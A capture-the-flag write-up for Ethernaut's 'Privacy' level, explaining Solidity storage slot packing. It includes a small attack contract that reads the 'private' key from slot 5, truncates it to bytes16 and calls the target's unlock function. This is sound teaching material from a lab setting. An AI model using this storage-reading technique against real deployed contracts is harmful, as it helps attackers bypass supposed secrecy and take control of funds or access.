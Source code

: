 ## Level 12 - Privacy

Requires a good understanding of how storage works in solidity, and how to access it.

## Solution

Below is the break up of how the state variables fit into different slots.

```
// Slot 0
bool public locked = true;

// Slot 1
uint256 public ID = block.timestamp;

// Slot 2
uint8 private flattening = 10;

// Slot 2
uint8 private denomination = 255;

// Slot 2
uint16 private awkwardness = uint16(block.timestamp);

// Slot 3, 4, 5
bytes32[3] private data;
```

Basically, the info stored at slot 5 is to be passed to the unlock function to clear the level.
Note the usage of `call` with `abi.encodeWithSignature`

```java
contract PrivacyAttack {

	event Response(bool success, bytes data);


	function bytes32ToBytes16(bytes32 data, address privacyContract) public {

		bytes16 convertedBytes = bytes16(data);



	// one way would be to import the abi (which on remix can be done by pasting the code into a file and compiling it)

	// then import it into this contract, create an object and then call

	// method2 would be use call on its address (since we know the function already)

		(bool success, bytes memory data) = privacyContract.call(

			abi.encodeWithSignature("unlock(bytes16)", convertedBytes)

		);



		emit Response(success, data);



		}

}
```

## Takeaway

```
# Storage
- 2 ** 256 slots
- 32 bytes for each slot
- data is stored sequentially in the order of declaration
- storage is optimized to save space. If neighboring variables fit in a single 32 bytes, then they are packed into the same slot, starting from the right

# Format of encodeWithSignature: endocdeWithSignature(functionName("function param type)", param)
```

## References

- https://solidity-by-example.org/hacks/accessing-private-data/
- https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
